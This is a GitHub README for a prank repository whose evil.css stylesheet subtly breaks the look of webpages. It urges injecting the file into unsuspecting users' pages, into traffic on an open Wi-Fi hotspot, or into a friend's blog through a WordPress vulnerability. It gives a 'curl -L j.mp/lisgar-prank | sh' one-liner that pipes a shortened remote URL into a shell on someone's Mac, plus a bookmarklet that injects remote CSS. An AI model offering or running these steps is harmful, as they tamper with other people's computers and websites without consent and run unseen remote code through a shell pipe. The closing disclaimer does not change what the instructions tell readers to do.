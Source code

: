 Pranks!
=======

A collection of pranks and stuff!

evil.css
--------
Mess with peoples' webpages. Various subtle and not-so-subtle CSS rules that will slowly drive people insane.

### How to use it

Inject it into unsuspecting users' webpages. evil.js was intended to wreak havoc on sites hotlinking JavaScript library files, however hotlinking CSS is far less common. Some other evil ideas:

* Set it as the user stylesheet in a browser (example: discouraging "customers" at retail stores from using the computers to browse Facebook and check their email).
* Inject it into webpages or CSS files served to WiFi leachers on your open access point.
* Exploit this week's WordPress vulnerability and add it to your friend's blog.
* Hack an Internet backbone router and inject it into _everyone's_ webpages.

A script called `evil-safari-mac.sh` is included that automates setting Safari's user stylesheet to the latest version of evil.css. This takes tlrobinson's latest version. Run it on any Mac using Terminal.app with this easy to remember URL:

    curl -L j.mp/lisgar-prank | sh

Uninstall it by deselecting the stylesheet in Safari's preferences, or execute this in a shell:

    curl -L j.mp/lp-remove | sh

### Demo

This bookmarklet will inject the latest version of evil.css into any webpage, just copy and paste into the URL bar and hit enter:

    javascript:(function(d,l){l=d.createElement("link");l.rel="stylesheet";l.href="https://raw.githubusercontent.com/RetroCraft/Pranks/master/evil.css/evil.css";d.body.appendChild(l)})(document);
    
### Credits

Forked from tlrobinson.

Obligatory disclaimer
---------------------

All these pranks are purely for entertainment purposes. I'm not responsible for anything you do with any of these, nor do I suggest doing any of the above activities, especially hacking backbone routers.
